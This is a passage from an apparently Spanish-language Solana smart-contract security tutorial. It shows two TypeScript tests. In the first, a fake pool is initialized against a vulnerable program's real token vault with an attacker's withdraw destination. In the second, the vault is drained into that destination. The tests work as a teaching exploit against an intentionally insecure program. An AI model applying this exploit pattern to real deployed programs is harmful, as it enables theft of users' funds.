 Después de eso, hay dos pruebas más para mostrar cómo las instrucciones son vulnerables a explotar.

La primera prueba invoca la `initialize_pool` instrucción de crear una `pool` cuenta "falsa" utilizando la misma cuenta de `vault` token, pero una diferente `withdraw_destination`.

La segunda prueba se retira de este grupo, robando efectivamente fondos de la bóveda.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
        .initializePool(authInsecureBump)
        .accounts({
            pool: poolInsecureFake.publicKey,
            mint: mint,
            vault: vaultInsecure.address,
            withdrawDestination: withdrawDestinationFake,
            payer: walletFake.publicKey,
        })
        .signers([walletFake, poolInsecureFake])
        .rpc();

    await new Promise((x) => setTimeout(x, 1000));

    await spl.mintTo(
        connection,
        wallet.payer,
        mint,
        vaultInsecure.address,
        wallet.payer,
        100,
    );

    const account = await spl.getAccount(connection, vaultInsecure.address);
    expect(Number(account.amount)).to.equal(100);
});

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
        .withdrawInsecure()
        .accounts({
            pool: poolInsecureFake.publicKey,
            vault: vaultInsecure.address,
            withdrawDestination: withdrawDestinationFake,
            authority: authInsecure,
            signer: walletFake.publicKey,
        })
        .signers([walletFake])
        .rpc();

    const account = await spl.getAccount(connection, vaultInsecure.address);
    expect(Number(account.amount)).to.equal(0);
});
```
